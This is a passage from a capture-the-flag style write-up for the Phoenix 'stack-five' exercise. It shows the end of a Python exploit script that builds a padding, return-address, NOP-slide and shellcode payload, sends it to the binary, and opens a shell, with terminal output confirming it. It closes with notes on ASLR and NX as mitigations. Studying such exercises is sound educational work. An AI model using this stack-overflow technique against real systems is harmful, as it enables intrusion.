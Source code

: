 ```python
'''

# Finally, putting them together into one payload
payload = PADDING + rip + nop_slide + shellcode

# Sending the payload
p.sendlineafter(b'education\n', payload)

# Going into interactive mode to interact with new shell
p.interactive()
```

We send the payload to the process we opened with `p.sendlineafter()` to send the payload right after the banner is printed. 

Then we go into interactive mode to input commands into the new `/bin/sh` process.

```bash
user@phoenix-amd64:/opt/phoenix/amd64$ ./solve_stack-five.py
[+] Starting local process '/opt/phoenix/amd64/stack-five': pid 1219
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
```

Success!


# Mitigation

This exploit would not have been possible if Address space layout randomization (ASLR) was enabled on this machine and the program was compiled with the `NX` bit enabled which disables any code execution from the stack. Since this is a VM made for exploit education, those mitigations were turned off but in a real world scenario they should always be enabled.

